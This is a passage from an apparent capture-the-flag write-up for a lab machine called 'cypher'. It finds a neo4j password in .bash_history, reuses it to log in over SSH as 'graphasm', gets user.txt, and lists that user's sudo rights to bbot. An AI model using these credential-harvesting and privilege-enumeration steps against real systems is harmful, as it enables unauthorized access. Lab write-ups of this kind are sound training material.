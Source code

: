 ```bash
drwxr-xr-x 50 root  root  4096 Feb 17 16:48 ..
-rw-r--r--  1 neo4j neo4j   63 Oct  8  2024 .bash_history
drwxrwxr-x  3 neo4j adm   4096 Oct  8  2024 .cache
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 certificates
drwxr-xr-x  6 neo4j adm   4096 Oct  8  2024 data
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 import
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 labs
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 licenses
-rw-r--r--  1 neo4j adm     52 Oct  2  2024 packaging_info
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 plugins
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 products
drwxr-xr-x  2 neo4j adm   4096 Aug  6 14:31 run
lrwxrwxrwx  1 neo4j adm      9 Oct  8  2024 .viminfo -> /dev/null

```

Let’s check out the .bash_history:

```bash
cat .bash_history

neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

We seem to have a password. Looking at home, there is only user graphasm, let’s assume that the password is for that user:

```bash
ls /home
graphasm

```

```bash
ssh graphasm@10.10.11.57
```

We are in. We now have user.txt

```bash
ls -la 

lrwxrwxrwx 1 root     root        9 Oct  8  2024 .bash_history -> /dev/null
-rw-r--r-- 1 graphasm graphasm  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 graphasm graphasm 3771 Mar 31  2024 .bashrc
-rw-r--r-- 1 graphasm graphasm  156 Feb 14 12:35 bbot_preset.yml
drwx------ 2 graphasm graphasm 4096 Oct  8  2024 .cache
-rw-r--r-- 1 graphasm graphasm  807 Mar 31  2024 .profile
drwx------ 2 graphasm graphasm 4096 Oct  8  2024 .ssh
-rw-r----- 1 root     graphasm   33 Aug  6 14:36 user.txt
```

Let’s also check our group membership and sudo privileges:

```bash
id
uid=1000(graphasm) gid=1000(graphasm) groups=1000(graphasm)

sudo -l

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

